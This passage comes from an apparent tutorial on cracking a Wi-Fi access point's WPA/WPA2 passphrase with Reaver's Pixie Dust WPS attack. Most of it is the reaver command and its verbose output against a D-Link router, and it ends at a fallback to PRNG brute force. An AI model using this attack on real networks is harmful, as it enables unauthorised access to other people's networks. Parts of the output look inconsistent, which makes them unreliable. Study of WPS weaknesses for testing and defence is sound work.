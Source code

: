 Once you found a potential target, you can go to the next step.

## Recover WPA/WPA2 Passphrase

Running Reaver againt an AP is quite simple, you only need the BSSID of the target.

The `-K 1` option performs the offline attack, Pixie Dust, by automatically passing the PKE, PKR, E-Hash1, E-Hash2, E-Nonce and Authkey variables.

```bash
$ reaver -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vvv -K 1


Reaver v1.5.3 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>
mod by t6_x <t6_x@hotmail.com> & DataHead & Soxrok2212 & Wiire & AAnarchYY & KokoSoft

[+] Switching wlan0mon to channel 1
[+] Waiting for beacon from AA:BB:CC:XX:YY:ZZ
[+] Associated with AA:BB:CC:XX:YY:ZZ (ESSID: [redacted])
[+] Starting Cracking Session. Pin count: 0, Max pin attempts: 11000
[+] Trying pin 12345670.
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[P] E-Nonce: 54:c2:65:ba:7d:6a:c1:94:6a:f5:fd:33:13:ab:c0:03
[P] PKE: d3:1e:1a:d5:cc:bb:76:b8:57:3e:ad:26:8e:76:33:0d:2b:1a:c1:65:6b:b0:26:e7:a3:cc:50:e1:ba:f8:cf:91:66:43:71:17:4c:08:ee:12:ec:92:b0:5e:9c:44:87:9f:51:25:5b:e5:ad:67:0e:1f:a1:56:04:70:ef:42:3c:90:e3:4d:c8:47:26:fc:3c:42:55:83:71:af:1d:b0:c4:81:ea:d9:85:2c:51:9b:f1:dd:42:ad:16:39:51:cf:69:18:1b:70:2a:ea:2a:36:84:ca:f3:5b:c5:4a:ca:1b:20:c8:8c:b3:b7:78:9f:f7:d5:6e:09:13:9d:77:fe:ac:58:07:90:97:93:82:51:db:be:75:e8:67:15:cc:6b:7c:0c:a9:45:fa:8d:d8:d6:61:be:b7:3b:41:40:32:79:54:ad:ee:32:b5:dd:61:b1:10:5f:18:d6:92:17:76:bb:75:c5:d9:66:a5:a8:90:37:2c:ab:a9:ea:b4:aa:4f:3d:89:fb:2b
[P] WPS Manufacturer: D-Link Corporation
[P] WPS Model Name: D-Link Router
[P] WPS Model Number: DIR-605L
[P] Access Point Serial Number: 20070413-0001
[+] Received M1 message
[P] R-Nonce: 36:c6:cf:1b:d6:d1:df:7e:b1:9f:20:de:b4:00:72:b3
[P] PKR: d3:1e:1a:d5:cc:bb:76:b8:57:3e:ad:26:8e:76:33:0d:2b:1a:c1:65:6b:b0:26:e7:a3:cc:50:e1:ba:f8:cf:91:66:43:71:17:4c:08:ee:12:ec:92:b0:5e:9c:44:87:9f:51:25:5b:e5:ad:67:0e:1f:a1:56:04:70:ef:42:3c:90:e3:4d:c8:47:26:fc:3c:42:55:83:71:af:1d:b0:c4:81:ea:d9:85:2c:51:9b:f1:dd:42:ad:16:39:51:cf:69:18:1b:70:2a:ea:2a:36:84:ca:f3:5b:c5:4a:ca:1b:20:c8:8c:b3:b7:78:9f:f7:d5:6e:09:13:9d:77:fe:ac:58:07:90:97:93:82:51:db:be:75:e8:67:15:cc:6b:7c:0c:a9:45:fa:8d:d8:d6:61:be:b7:3b:41:40:32:79:54:ad:ee:32:b5:dd:61:b1:10:5f:18:d6:92:17:76:bb:75:c5:d9:66:a5:a8:90:37:2c:ab:a9:ea:b4:aa:4f:3d:89:fb:2b
[P] AuthKey: 83:9c:eb:db:11:a9:50:64:c1:85:9f:00:a2:11:be:9c:aa:ab:41:ae:50:13:bb:eb:43:3c:25:1d:fa:a2:a5:aa
[+] Sending M2 message
[P] E-Hash1: 54:83:43:df:55:7f:88:99:13:22:d0:c1:cc:7f:1b:be:57:aa:6d:cc:50:13:bb:eb:43:3c:25:1d:fa:a2:a5:aa
[P] E-Hash2: 83:9c:eb:db:11:a9:50:64:c1:85:9f:00:a2:11:be:9c:aa:ab:41:fb:d9:f8:ca:fe:3d:b1:52:4e:2b:3a:90:44
[+] Running pixiewps with the information, wait ...
[Pixie-Dust]  
[Pixie-Dust]   Pixiewps 1.2
[Pixie-Dust]  
[Pixie-Dust]   [-] WPS pin not found!
[Pixie-Dust]  
[Pixie-Dust]   [*] Time taken: 0 s 635 ms
[Pixie-Dust]  
[Pixie-Dust]   [!] The AP /might be/ vulnerable. Try again with --force or with another (newer) set of data.
[Pixie-Dust]  
[+] Pin not found, trying -f (full PRNG brute force), this may take around 30 minutes
[Pixie-Dust]  
```